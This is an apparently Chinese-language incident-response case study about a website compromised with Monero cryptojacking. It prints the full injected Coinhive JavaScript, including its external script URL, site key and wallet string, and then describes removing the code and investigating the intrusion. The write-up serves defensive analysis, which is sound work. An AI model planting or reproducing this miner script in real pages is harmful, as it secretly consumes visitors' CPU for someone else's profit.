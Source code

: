 # 第2篇：门罗币恶意挖矿

门罗币\(Monero 或 XMR\)，它是一个非常注重于隐私、匿名性和不可跟踪的加密数字货币。只需在网页中配置好js脚本，打开网页就可以挖矿，是一种非常简单的挖矿方式，而通过这种恶意挖矿获取数字货币是黑灰色产业获取收益的重要途径。

## 现象描述

利用XMR恶意挖矿，会大量占用用户的CPU资源，严重影响了网站的用户体验。

从08/09日0点开始，局域网内某IP访问网站页面会触发安全预警，只要访问此服务器上的网页，CPU直线上升100%

![](../.gitbook/assets/2-5.jpg)

## 问题解析

通过获取恶意网页url，对网页页面进行分析，发现网站页面被植入在线门罗币挖矿代码：

`<script>    
var script = document.createElement('script');    
script.onload = function () {    
// XMR Pool hash    
var m = new CoinHive.Anonymous('BUSbODwUSryGnrIwy3o6Fhz1wsdz3ZNu');    
// TODO: Replace the below string with wallet string    
m.start('47DuVLx9UuD1gEk3M4Wge1BwQyadQs5fTew8Q3Cxi95c8W7tKTXykgDfj7HVr9aCzzUNb9vA6eZ3eJCXE9yzhmTn1bjACGK');    
};    
script.src = 'https://coinhive.com/lib/coinhive.min.js';    
document.head.appendChild(script);    
</script>`

删除js里面的恶意代码，网站被XMR 恶意挖矿，服务器已经被攻击，进一步做服务器入侵排查。

